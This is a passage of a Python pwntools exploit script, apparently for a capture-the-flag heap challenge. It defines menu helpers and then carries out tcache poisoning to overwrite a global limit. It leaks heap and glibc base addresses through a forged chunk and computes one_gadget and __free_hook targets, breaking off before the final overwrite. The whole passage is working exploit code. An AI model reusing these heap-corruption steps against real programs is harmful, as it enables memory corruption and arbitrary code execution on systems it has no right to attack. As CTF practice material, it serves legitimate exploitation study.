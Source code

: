 ```python
    r2 = p.sendlineafter(b"trading in?",str(idx))
    return r1 +r2

def hack(idx, payload):
    global p
    r1 = p.sendlineafter(b"> ", "3")
    r2 = p.sendlineafter(b"you trouble?",str(idx))
    r3 = p.sendlineafter(b"New date:",payload)
    return r1 +r2+r3

def heapleak(idx):
    global p
    r1 = p.sendlineafter(b"> ", "3")
    r2 = p.sendlineafter(b"you trouble?", str(idx))
    r3 = p.recvuntil(b"you that ")
    leakraw = p.recvuntil(b"\n")[:-1]
    theleak = u64(leakraw + b"\x00"*(8-len(leakraw)))
    p.sendlineafter(b"New date:", b"JUNK")
    return theleak

malloc(0, "junk1", "junk2")
malloc(1, "junk3", "junk4")
free(0)
free(1)
target = 0x404028-32

print(hack(1, p64(target)))
print(malloc(2, "junk5", "junk6"))
malloc(3, b"\xff\xff", b"\xff\xff\xff")
#this set MAX_DREAMS to a large number

#Now I can make a fake chunk of a large enough size to get a glibc leak
malloc(533, "FINDME", "PAY2")
chunkleak = heapleak(533)
heapbase = chunkleak - 4928
print(hex(heapbase))

for i in range(25):
    malloc(10+i, "fake-"+str(i), "fake2-"+str(i))

malloc(35, "free1", "free1p")
malloc(36, "free2", "free2p")
free(35)
free(36)
offset = 4952
targethere = heapbase + offset
#this is 16 bytes before the 10th chunk
hack(36, p64(targethere))
malloc(37, "junk", "junk2")
malloc(38, "junk", p64(0) + p64(0x4b1))
malloc(41, "free1", "free1a")
malloc(42, "free2", "free2a")
free(10)
glibcleak = heapleak(10) #glibc
glibcbase = glibcleak - 2018272
oneg=0xe3b2e
oneg=0xe3b31
onegadget = glibcbase + oneg
freehook = glibcleak + 8808
print(hex(freehook), "freehook")

free(41)
free(42)
```
